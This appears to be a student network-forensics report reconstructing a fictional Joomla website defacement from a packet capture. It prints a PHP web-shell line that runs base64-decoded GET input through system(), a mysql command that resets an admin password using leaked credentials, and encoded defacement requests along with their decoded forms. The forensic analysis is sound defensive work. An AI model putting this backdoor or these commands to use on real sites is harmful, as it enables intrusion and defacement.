


# Network Forensic Analysis

## Assignment

```
The Potenzio company requests that you analyze the attached PCAP file and 
create a written report (suggested length: 2 pages) detailing whether any 
malicious activities occurred and providing a timeline of the related events.

Please organize the report using the 5W1H method (Who, What, Where, When,
Why, How) and specify the timestamp and hashes of related artifacts for 
each event.

Note the following hints:
	
	The IP address 203.0.113.2 is used by Potenzio as a
	masquerade address.
    
	The IP address 203.0.113.113 is the provider’s DNS
	address.

Both of the above addresses can be considered trusted.
Please ignore Layer 2 information.
```

## 1. Who?

The given pcap file displayed normal network activity of different actors among which we can find :
- **libre0ffice.com**, the attacker, acting under the IP address **58.16.123.111**.
- **potenzio's net**, the attacked, using the masquerade address **203.0.113.2**
- **potenzio's provider**, using the DNS address **203.0.113.113**
## 2. What happened?

An attacker altered Potenzio's website index page, leaving a menacing message that threatened the company unless it revised its environmental policies.
The captured traffic consisted primarily of simple HTTP queries. However, some messages between the attacker and the target used the POP3 protocol, allowing the attacker to spoof the credentials of a Potenzio employee.
## 3. Where did it take places?

The attack's core location can be identified with Potenzio's backend and database.
The attackers were able to access the server with a remote shell and install a cli-tool that allowed them to interact directly with the DB and modify admin accounts data.
After doing so they just had to send some requests to admin-panel in order to finalize the attack.
## 4. When did it take place?

- **2024-05-12 10:26:19 UTC**
	The attacker did a port-scanning session and tried to access the administrator page of Potenzio's website without success, but found the complete database configuration through a public json file.
	
- **2024-05-12 10:27:33 UTC**
	The attacker sent a email to claudio.volume@potenzio.com spoofing his  credentials while doing so.
	
- **2024-05-12 10:28:05 UTC** 
	The attacker accessed the Potenzio's backend server using the credentials  previously acquired and installing then mysql-client to modify an admin account's credentials with a password of his choice.
	
- **2024-05-12 10:28:52 UTC** 
	The attacker logged into the administration dashboard with the modified admin account and downloaded some templates for the website's index page. 
	Using those templates he forged a new one that could be used as a reverse shell.
	After doing so the attacker tested the exploit and then performed the real attack substituting the index page with menacing message threatening the company.

## 5. Why did it happen?

The attack was carried out by a group of eco-cyber-activists known as EcoDefenders, aiming to threaten Potenzio's company by disrupting access to their website.
In the message left on the index page, the activists claimed responsibility, citing the company's prolonged pollution and illegal toxic waste production as their motivation.
They described the attack as a warning and promised more severe actions if the company does not adopt environmentally friendly policies.

## How did it happen?

### Information gathering
#### 2024-05-12 10:26:19 UTC
The attacker started a port-scanning session and tried also to access the admin page with default credentials but didn't succeed in doing so.

He then sent a targeted request to **"www.potenzio.com/administrator/manifests/files/joomla.xml"** in order to get a file that describes the complete structure of the joomla extension configuration, from which is possible to gather informations about the DB structure as well.

After analysing the joomla configuration file the attacker sent then another request to **"www.potenzio.com/api/index.php/v1/config/application?public=true"** that responded with a json file with the complete db configuration including all the credentials to access it.

```json
...
{
	"type": "application",
	"id": "224",
    "attributes": {
	    "dbtype": "mysqli",
	    "id": 224
	}
},
{
	"type": "application",
    "id": "224",
    "attributes": {
	    "host": "10.0.100.100",
	    "id": 224
    }
},
{
    "type": "application",
    "id": "224",
    "attributes": {
	    "user": "joomla",
	    "id": 224
    }
},
{
	"type": "application",
	"id": "224",
	"attributes": {
	    "password": "secret4joomla",
	    "id": 224
    }
},
{
	"type": "application",
	"id": "224",
	"attributes": {
	    "password": "secret4joomla",
	    "id": 224
    }
},
{
	"type": "application",
	"id": "224",
	"attributes": {
	    "dbprefix": "pnv1x_",
		"id": 224
	}
},
...
```

He then tried to use the database password to access the admin page but it did not work.
### Sending the email
#### 2024-05-12  10:27:33 UTC
The attacker sent an email to a Potenzio employee disguising himself for a society called **harmonic.com**  with some *"exclusive offers"* just for him as we can read in the message body:

```html
<html>
  <head>
    <meta http-equiv="content-type" content="text/html; charset=UTF-8">
  </head>
  <body>
    <p>Dear Claudio,</p>
    <p>Please find attached <b>exclusive offerBoth of the above addresses can be considered trusted. Please ignore Layer 2 is</b> for you.</p>
    <p>Cheers</p>
    <p>Jan Bauer<br>
    </p>
  </body>
</html>
```

Opening the pcap file with **Network Miner** we can see some informations about the message.


Taking a closer look it's possible to see that the mail was sent from a pretty suspicious address ( **smtp.harmonic.com (mx.lockermaster.lol \[58.16.123.111]**) and contained an attachment called [offers.odt](./assets/harmonic_email_attachment).
Notice that the ip address found in the server is the same as the attacker's one as well.
Although the attached file seemed to be clean the messages where exchanged using POP3 communication protocol and analysing the packets with a tool like Wireshark it was possible to spoof Claudio's credentials



Just by looking at the communication header we can see the credentials in plain text

```
User: claudio.volume
Password: claudione
```


### Accessing the backend server
#### 2024-05-12 10:28:05 UTC

Using Claudio's credentials the attacker invoked a shell on the server, installed **mysql-client** and accessed the Joomla database using the credentials obtained through the public json file.
Doing so he changed the password for an admin account to one of his choice:

```bash
claudio.volume@client:/$ mysql -u joomla --password=secret4joomla -h 10.0.100.100 joomladb -e "Update pnv1x_users SET password = 'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199' WHERE name='admin';"
```

### Modifying the index page
#### 2024-05-12 10:28:52 UTC

The attacker downloaded some index page templates and from them he forged a new one where the value of a parameter called *random* can be sent in a GET request to the index page.
If the value of the *random* parameter is some valid command once decoded from base 64, it's executed on the server using the *system* command.

```php
[ content of the index page ]
.
.
.
    <?php if (isset($_GET['rand'])) system(base64_decode($_GET['rand'])); ?>
    <jdoc:include type="modules" name="debug" style="none" />
</body>
</html>
.
.
.
<!-- relevant segment of the attacker's forged template -->
```

Doing so the attacker had access to a reverse shell on Potenzio's server.
The attacker then tested the newly created template sending a request where the *random* parameter's value was decoded into the  **ls -la** command, exposing the files present on the server

Attacker's forged request

```
http://www.potenzio.com/?rand=bHMgLWxhCg==
```

Decoded parameter

```bash
> echo "bHMgLWxhCg==" | base64 -d
ls -la
```

Web displayed output

```html
<html>
.
. 
.
    drwxr-xr-x  1 www-data www-data  4096 May  9 15:56 .\n
    drwxr-xr-x  1 root     root      4096 May  4 12:06 ..\n
    -rw-r--r--  1 www-data www-data 18092 Jan 30  2023 LICENSE.txt\n
    -rw-r--r--  1 www-data www-data  4942 Jan 30  2023 README.txt\n
    drwxr-xr-x  1 www-data www-data  4096 Jan 30  2023 administrator\n
    drwxr-xr-x  5 www-data www-data  4096 Jan 30  2023 api\n
    drwxr-xr-x  2 www-data www-data  4096 Jan 30  2023 cache\n
    drwxr-xr-x  2 www-data www-data  4096 Jan 30  2023 cli\n
    drwxr-xr-x 18 www-data www-data  4096 Jan 30  2023 components\n
    -rw-r--r--  1 root     root      2003 May  9 15:46 configuration.php\n
    -rw-r--r--  1 www-data www-data  6858 Jan 30  2023 htaccess.txt\n
    drwxr-xr-x  1 www-data www-data  4096 May  9 15:56 images\n
    drwxr-xr-x  2 www-data www-data  4096 Jan 30  2023 includes\n
    -rw-r--r--  1 www-data www-data  1068 Jan 30  2023 index.php\n
    drwxr-xr-x  4 www-data www-data  4096 Jan 30  2023 language\n
    drwxr-xr-x  6 www-data www-data  4096 Jan 30  2023 layouts\n
    drwxr-xr-x  6 www-data www-data  4096 Jan 30  2023 libraries\n
    drwxr-xr-x 71 www-data www-data  4096 Jan 30  2023 media\n
    drwxr-xr-x 26 www-data www-data  4096 Jan 30  2023 modules\n
    drwxr-xr-x 25 www-data www-data  4096 Jan 30  2023 plugins\n
    -rw-r--r--  1 www-data www-data   764 Jan 30  2023 robots.txt.dist\n
    drwxr-xr-x  1 www-data www-data  4096 Jan 30  2023 templates\n
    drwxr-xr-x  2 www-data www-data  4096 Jan 30  2023 tmp\n
    -rw-r--r--  1 www-data www-data  2974 Jan 30  2023 web.config.txt\n
        \n
    </body>\n
    </html>\n
```

After that the attacker proceeded to send another request with the final payload performing the attack itself that overwrote Potenzio's website's index page

Attacker's forged request

```
http://www.potenzio.com/?rand=YmFzaCAtYyAiY2F0ID4gaW5kZXguaHRtbCA8PCBFT0YKClw8cHJlPgpHcmVldGluZ3MsCldlIGFyZSBFY29EZWZlbmRlcnMuIApXZSBoYXZlIGRpc3J1cHRlZCBhY2Nlc3MgdG8gdGhlIFBvdGVuemlvIHdlYnNpdGUgZm9yIG9uZSBzaW1wbGUgcmVhc29uOiB5b3VyIHBvbGx1dGluZyBwcmVzZW5jZSBvbiBvdXIgcGxhbmV0IGNhbiBubyBsb25nZXIgYmUgaWdub3JlZC4KRm9yIHllYXJzLCBQb3RlbnppbyBoYXMgZGlzcmVnYXJkZWQgdGhlIHdhcm5pbmdzIG9mIHNjaWVudGlzdHMsIHZpb2xhdGVkIGVudmlyb25tZW50YWwgcmVndWxhdGlvbnMsIGFuZCBjb21wcm9taXNlZCB0aGUgaGVhbHRoIG9mIHRob3VzYW5kcyB3aXRoIGl0cyB0b3hpYyBlbWlzc2lvbnMuIApXZSBjYW5ub3Qgc3RhbmQgYnkgc2lsZW50bHkgd2hpbGUgb3VyIHBsYW5ldCBzdWZmZXJzLgpUaGlzIGRlZmFjZW1lbnQgaXMgYSB3YXJuaW5nLiBDaGFuZ2UgeW91ciBwcmFjdGljZXMsIHJlZHVjZSBwb2xsdXRpb24sIGFuZCByZXNwZWN0IHRoZSBFYXJ0aC4gSXQgaXMgbm90IHRvbyBsYXRlIHRvIG1ha2UgYSBkaWZmZXJlbmNlLCBidXQgdGltZSBpcyBydW5uaW5nIG91dC4KCklmIFBvdGVuemlvIGRvZXMgbm90IGJlZ2luIHRvIHRha2UgY29uY3JldGUgbWVhc3VyZXMgdG8gaW1wcm92ZSBpdHMgZW52aXJvbm1lbnRhbCBmb290cHJpbnQsIHdlIHdpbGwgZW5zdXJlIHRoYXQgdGhlIHdvcmxkIGtub3dzIGV2ZXJ5IGRlc3RydWN0aXZlIGFjdGlvbiB0aGV5IHRha2UuIFRoaXMgaXMganVzdCB0aGUgYmVnaW5uaW5nLgoKQWN0IG5vdy4gT3VyIHBsYW5ldCBjYW5ub3Qgd2FpdCBhbnkgbG9uZ2VyLgoKRU9GIgo=
```

Decoded parameter

```bash
> echo "YmFzaCAtYyAiY2F0ID4gaW5kZXguaHRtbCA8PCBFT0YKClw8cHJlPgpHcmVldGluZ3MsCldlIGFyZSBFY29EZWZlbmRlcnMuIApXZSBoYXZlIGRpc3J1cHRlZCBhY2Nlc3MgdG8gdGhlIFBvdGVuemlvIHdlYnNpdGUgZm9yIG9uZSBzaW1wbGUgcmVhc29uOiB5b3VyIHBvbGx1dGluZyBwcmVzZW5jZSBvbiBvdXIgcGxhbmV0IGNhbiBubyBsb25nZXIgYmUgaWdub3JlZC4KRm9yIHllYXJzLCBQb3RlbnppbyBoYXMgZGlzcmVnYXJkZWQgdGhlIHdhcm5pbmdzIG9mIHNjaWVudGlzdHMsIHZpb2xhdGVkIGVudmlyb25tZW50YWwgcmVndWxhdGlvbnMsIGFuZCBjb21wcm9taXNlZCB0aGUgaGVhbHRoIG9mIHRob3VzYW5kcyB3aXRoIGl0cyB0b3hpYyBlbWlzc2lvbnMuIApXZSBjYW5ub3Qgc3RhbmQgYnkgc2lsZW50bHkgd2hpbGUgb3VyIHBsYW5ldCBzdWZmZXJzLgpUaGlzIGRlZmFjZW1lbnQgaXMgYSB3YXJuaW5nLiBDaGFuZ2UgeW91ciBwcmFjdGljZXMsIHJlZHVjZSBwb2xsdXRpb24sIGFuZCByZXNwZWN0IHRoZSBFYXJ0aC4gSXQgaXMgbm90IHRvbyBsYXRlIHRvIG1ha2UgYSBkaWZmZXJlbmNlLCBidXQgdGltZSBpcyBydW5uaW5nIG91dC4KCklmIFBvdGVuemlvIGRvZXMgbm90IGJlZ2luIHRvIHRha2UgY29uY3JldGUgbWVhc3VyZXMgdG8gaW1wcm92ZSBpdHMgZW52aXJvbm1lbnRhbCBmb290cHJpbnQsIHdlIHdpbGwgZW5zdXJlIHRoYXQgdGhlIHdvcmxkIGtub3dzIGV2ZXJ5IGRlc3RydWN0aXZlIGFjdGlvbiB0aGV5IHRha2UuIFRoaXMgaXMganVzdCB0aGUgYmVnaW5uaW5nLgoKQWN0IG5vdy4gT3VyIHBsYW5ldCBjYW5ub3Qgd2FpdCBhbnkgbG9uZ2VyLgoKRU9GIgo=" | base64 -d

bash -c "cat > index.html << EOF

\<pre>
Greetings,
We are EcoDefenders.
We have disrupted access to the Potenzio website for one simple reason: your polluting presence on our planet can no longer be ignored.
For years, Potenzio has disregarded the warnings of scientists, violated environmental regulations, and compromised the health of thousands with its toxic emissions.
We cannot stand by silently while our planet suffers.
This defacement is a warning. Change your practices, reduce pollution, and respect the Earth. It is not too late to make a difference, but time is running out.

If Potenzio does not begin to take concrete measures to improve its environmental footprint, we will ensure that the world knows every destructive action they take. This is just the beginning.

Act now. Our planet cannot wait any longer.

EOF"
```

## Timeline Summary



